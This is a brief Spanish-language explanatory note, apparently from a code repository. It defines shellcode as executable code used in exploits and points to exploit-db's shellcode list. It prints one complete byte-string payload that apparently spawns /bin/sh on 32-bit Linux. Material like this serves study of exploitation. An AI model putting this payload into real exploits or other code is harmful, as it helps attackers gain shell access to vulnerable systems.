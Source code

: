 # Descripcion
Un shellcode es un fragmento de código ejecutable que se utiliza, generalmente, como parte de un exploit  

## Ejemplos de shell code
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"  

Tienes más en:  

https://www.exploit-db.com/shellcodes  
